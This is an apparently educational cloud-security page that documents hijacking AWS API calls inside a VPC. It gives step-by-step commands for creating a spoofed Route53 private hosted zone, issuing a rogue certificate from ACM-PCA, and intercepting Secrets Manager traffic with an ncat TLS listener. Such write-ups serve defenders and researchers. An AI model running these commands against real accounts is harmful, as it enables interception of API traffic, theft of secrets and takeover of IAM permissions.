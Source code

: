 ```yaml
---
author: Patryk Bogusz
title: AWS API Call Hijacking via ACM-PCA
description: By modifying the route53 entries and utilizing the acm-pca private CA one can hijack the calls to AWS API inside the AWS VPC
hide:
  - toc
---
```


Original Research: [niebardzo](https://twitter.com/niebardzo2) - [Hijacking AWS API Calls](https://niebardzo.github.io/2022-03-11-aws-hijacking-route53/) 

**Required IAM Permission**: [route53:CreateHostedZone](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/create-hosted-zone.html), [route53:ChangeResourceRecordSets](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/change-resource-record-sets.html), [acm-pca:IssueCertificate](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/issue-certificate.html), [acm-pca:GetCertificate](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/get-certificate.html)  
**Recommended but not required**: [route53:GetHostedZone](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/get-hosted-zone.html), [route53:ListHostedZones](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/list-hosted-zones.html), [acm-pca:ListCertificateAuthorities](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/list-certificate-authorities.html), [ec2:DescribeVpcs](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-vpcs.html) (may be useful for enumeration, but are not requires as the info can be enumerated in other ways)  

!!! Note
    To perform this attack the target account must already have an [AWS Certificate Manager Private Certificate Authority](https://aws.amazon.com/certificate-manager/private-certificate-authority/) (AWS-PCA) setup in the account, and EC2 instances in the VPC(s) must have already imported the certificates to trust it. With this infrastructure in place, the following attack can be performed to intercept AWS API traffic.

Assuming there is an AWS VPC with multiple cloud-native applications talking to each other and to AWS API. Since the communication between the microservices is often TLS encrypted there must be a private CA to issue the valid certificates for those services. If ACM-PCA is used for that and the adversary manages to get access to control both route53 and acm-pca private CA with the minimum set of permissions described above, it can hijack the application calls to AWS API taking over their IAM permissions.

This is possible because:  

* AWS SDKs do not have [Certificate Pinning](https://www.digicert.com/blog/certificate-pinning-what-is-certificate-pinning)
* Route53 allows creating Private Hosted Zone and DNS records for AWS APIs domain names
* Private CA in ACM-PCA cannot be restricted to signing only certificates for specific Common Names

For example, Secrets Manager in us-east-1 could be re-routed by an adversary setting the secretsmanager.us-east-1.amazonaws.com domain to an IP controlled by the adversary. The following creates the private hosted zone for secretsmanager.us-east-1.amazonaws.com:
```
aws route53 create-hosted-zone --name secretsmanager.us-east-1.amazonaws.com --caller-reference sm4 --hosted-zone-config PrivateZone=true --vpc VPCRegion=us-east-1,VPCId=<VPCId>
```

Then set the A record for secretsmanager.us-east-1.amazonaws.com in this private hosted zone. Use the following POST body payload - mitm.json:

```
{
  "Comment": "<anything>",
  "Changes": [{
    "Action": "UPSERT",
    "ResourceRecordSet": {
      "Name": "secretsmanager.us-east-1.amazonaws.com",
      "Type": "A",
      "TTL": 0,
      "ResourceRecords": [{"Value": "<ip_of_adversary_instance_in_the_VPC>"}]
    }
  }]
}
```

One set TTL to 0 to avoid DNS caching. Then, the advisory uses this payload to change-resource-record-sets:
```
aws route53 change-resource-record-sets --hosted-zone-id <id_returned_by_previous_API_call> --change-batch file://mitm.json
```

Now, the adversary must generate the CSR and send it for signing to the ACM-PCA, CSR and private key can be generated with OpenSSL:
```
openssl req -new -newkey rsa:2048 -nodes -keyout your_domain.key -out your_domain.csr
```

For CN (Common Name), one must provide secretsmanager.us-east-1.amazonaws.com. Then one sends the CSR to acm-pca to issue the certificate:
```
aws acm-pca issue-certificate --certificate-authority-arn "<arn_of_ca_used_within_vpc>" --csr file://your_domain.csr --signing-algorithm SHA256WITHRSA --validity Value=365,Type="DAYS" --idempotency-token 1234
```

It returns the signed certificate ARN in the response. The next call is to fetch the certificate.

```
aws acm-pca get-certificate --certificate-arn "<cert_arn_from_previous_response>" --certificate-authority-arn "<arn_of_ca_used_within_vpc>"
```

Once one got the signed certificate on the disk as cert.crt, the adversary starts the listener or 443/TCP and sniffs the calls to the secretsmanager.us-east-1.amazonaws.com
```
sudo ncat --listen -p 443 --ssl --ssl-cert cert.crt --ssl-key your_domain.key -v
```

The calls can be then forwarded to the Secrets Manager VPCE to for example GetSecretValue and get unauthorized access to the data. The same action can be done with any AWS API called from the VPC - S3, KMS, etc.
